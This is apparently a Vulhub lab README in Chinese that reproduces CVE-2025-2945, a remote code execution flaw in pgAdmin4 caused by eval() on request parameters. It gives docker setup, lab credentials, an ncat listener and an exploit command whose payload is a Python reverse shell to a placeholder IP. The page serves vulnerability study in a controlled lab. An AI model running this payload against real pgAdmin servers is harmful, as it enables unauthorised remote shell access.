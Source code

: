 # pgAdmin4 <= 9.1 后台远程代码执行漏洞 (CVE-2025-2945)

pgAdmin4是一个著名的PostgreSQL数据库管理平台。

pgAdmin4 9.2以下存在一个远程代码执行漏洞。其 /sqleditor/query_tool/download 接口和 /cloud/deploy 接口都直接使用 eval() 解析参数，导致攻击者可以通过接口传入恶意python代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2025-2945
- https://github.com/advisories/GHSA-g73c-fw68-pwx3

## 环境

```bash
docker compose up -d
```

然后访问 http://localhost:5050/ 进入pgAdmin4登录页面。pgAdmin4用户名和密码：`vulhub@example.com:vulhub`

触发这个漏洞还需要一个可供pgAdmin4访问的PostgresSQL数据库（用于激活sqleditor功能）。它包含在docker-compose.yml中，并已经添加到了pgAdmin4的服务器列表里，无需配置即可直接利用。数据库用户名和密码：`vulhub:vulhub`。

## 漏洞复现

复现漏洞可以使用metasploit的`exploit/multi/http/pgadmin_query_tool_authenticated`，或者单独的python poc脚本：https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py

首先监听一个端口等待反弹shell：

```bash
ncat -lvvp 1337
```

然后运行`exp.py`，使用python代码反弹shell，同时传入pgAdmin4的登录凭据（`--username`和`--password`）以及pgAdmin4服务器列表中的Postgres数据库的登录凭据（`--db-user`和`--db-pass`）。

```bash
./exp.py --target-url http://<target-ip>:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload 'exec("import sys,socket,os,pty;s=socket.socket();s.connect((\"<your-ip>\",1337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")")'
```

![exp](1.png)
